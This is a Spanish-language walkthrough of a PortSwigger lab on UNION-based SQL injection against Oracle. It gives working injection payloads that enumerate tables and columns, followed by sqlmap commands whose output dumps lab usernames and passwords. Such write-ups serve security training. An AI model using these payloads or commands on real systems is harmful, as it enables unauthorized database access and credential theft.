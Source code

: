 ```yaml
---
title: SQL injection attack, listing the database contents on Oracle
date: 2024-11-15 12:36:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - SQLI
tags:
  - SQL injection attack, listing the database contents on Oracle
  - SQLI (Error Based)
  - Oracle Database
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio contiene una `vulnerabilidad` de `inyección SQL` en el `filtro` de `categoría` de productos. Los resultados de la consulta se devuelven en la respuesta de la aplicación, por lo que hay que usar un `ataque UNION` para recuperar datos de otras `tablas`. La aplicación tiene una `función` de `inicio` de `sesión`, y la `base` de `datos` contiene una `tabla` que almacena `nombres` de `usuario` y `contraseñas`. Determinamos el `nombre` de esta `tabla` y las `columnas` que contiene, luego `recuperamos` el `contenido` de la `tabla` para obtener el `nombre` de `usuario` y la `contraseña` de todos los `usuarios`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SQLI-Lab-6/image_1.png)

Si hacemos `click` en alguno de los `filtros`, nos filtrará los artículos por esta categoría

![](/assets/img/SQLI-Lab-6/image_2.png)

`Capturamos` la `petición` con `Burpsuite` y `añadimos` una `comilla` simple `'`

![](/assets/img/SQLI-Lab-6/image_3.png)

Si enviamos esta petición nos devolverá un `Internal Server Error`, lo cual quiere decir que estamos `interfiriendo` con la `consulta SQL` que se está produciendo

![](/assets/img/SQLI-Lab-6/image_4.png)

Si usamos este `payload` mediante el cual añadimos una comparación que `siempre` es `verdad` como `1=1`, ignoramos el resto de la consulta SQL con `-- - ` y enviamos la petición nuevamente no obtenemos ningún fallo, lo que quiere decir que la inyección `SQL` ha sido `exitosa`

```
/filter?category=Lifestyle'+or+1=1--+-+
```

![](/assets/img/SQLI-Lab-6/image_5.png)

Usando `order by` podemos saber el `número` de `columnas` que tiene la `tabla`, empleando este `payload` el resultado es un `200 OK`

```
/filter?category=Lifestyle'+order+by+2--+-+
```

Sin embargo, si empleamos este otro `payload` donde hacemos `order by 3`, nos devuelve un `Internal Server Error`, esto se debe a que al no existir tres columnas nos arroja un fallo

```
/filter?category=Lifestyle'+order+by+3--+-+
```

Una vez sabemos el número de columnas, usando `union select` vamos a obtener la información, en este caso, usamos `from dual` debido a que estamos ante una base de datos `Oracle`

```
/filter?category=Lifestyle'+union+select+null,null+from+dual--+-+
```

Confirmamos la `base` de `datos` en uso y también el su `versión`

```
/filter?category=Lifestyle'+union+select+null,banner+from+v$version--+-+
```

![](/assets/img/SQLI-Lab-6/image_6.png)

`Listamos` el `nombre` de todos los propietarios

```
/filter?category=Lifestyle'+union+select+null,owner+from+all_tables--+-+
```

![](/assets/img/SQLI-Lab-6/image_7.png)

`Listamos` el `nombre` de la `base` de `datos` en uso

```
/filter?category=Lifestyle'+union+select+null,global_name+from+global_name--+-+
```

![](/assets/img/SQLI-Lab-6/image_8.png)

`Listamos` las `tablas` cuyo `propietario` es `PETER`

```
/filter?category=Lifestyle'+union+select+null,table_name+from+all_tables+where+owner='PETER'--+-+
```

![](/assets/img/SQLI-Lab-6/image_9.png)

`Listamos` las `columnas` de la tabla `USERS_NWMYAE`

```
/filter?category=Lifestyle'+union+select+null,column_name+from+all_tab_columns+where+table_name='USERS_NWMYAE'--+-+
```

![](/assets/img/SQLI-Lab-6/image_10.png)

`Obtenemos` el contenido de las columnas `PASSWORD_NDAIAQ` y `USERNAME_SDYBVL`

```
/filter?category=Lifestyle'+union+select+PASSWORD_NDAIAQ,USERNAME_SDYBVL+from+USERS_NWMYAE--+-+
```

![](/assets/img/SQLI-Lab-6/image_11.png)

Podríamos obtener también la `contraseña` del usuario `administrator` usando `sqlmap`, lo primero es `listar` las `bases` de `datos`

```
# sqlmap -u 'https://0abf0062035a842480f72105002600f5.web-security-academy.net/filter?category=Pets*' --risk=3 --level=5 --random-agent --dbs --batch --threads 2   
available databases [7]:
[*] APEX_040000
[*] CTXSYS
[*] MDSYS
[*] PETER
[*] SYS
[*] SYSTEM
[*] XDB
```

`Listamos` las `tablas` de la base de datos `public`

```
# sqlmap -u 'https://0abf0062035a842480f72105002600f5.web-security-academy.net/filter?category=Pets*' --risk=3 --level=5 --random-agent -D PETER --tables --batch --threads 2 
Database: PETER
[2 tables]
+--------------+
| PRODUCTS     |
| USERS_GRCOPU |
+--------------+
```

`Listamos` las `columnas` de la tabla `users`

```
# sqlmap -u 'https://0abf0062035a842480f72105002600f5.web-security-academy.net/filter?category=Pets*' --risk=3 --level=5 --random-agent -D PETER -T USERS_GRCOPU --columns --batch --threads 2   
Database: PETER
Table: USERS_GRCOPU
[3 columns]
+-----------------+----------+
| Column          | Type     |
+-----------------+----------+
| EMAIL           | VARCHAR2 |
| PASSWORD_EJHRJL | VARCHAR2 |
| USERNAME_RZIDBZ | VARCHAR2 |
+-----------------+----------+
```

`Dumpeamos` el contenido de `password` y `username` de la tabla `users`

```
# qlmap -u 'https://0abf0062035a842480f72105002600f5.web-security-academy.net/filter?category=Pets*' --risk=3 --level=5 --random-agent -D PETER -T USERS_GRCOPU -C PASSWORD_EJHRJL,USERNAME_RZIDBZ --dump --batch --threads 2
Database: PETER
Table: USERS_GRCOPU
[3 entries]
+----------------------+-----------------+
| PASSWORD_EJHRJL      | USERNAME_RZIDBZ |
+----------------------+-----------------+
| mgbyibei3vhwt891natb | administrator   |
| l4yb7rhby75261r7u622 | wiener          |
| uhnlgaqk499jfc1lu576 | carlos          |
+----------------------+-----------------+
```

Una vez obtenida la contraseña del usuario `administrator` podemos `loguearnos`

![](/assets/img/SQLI-Lab-6/image_12.png)
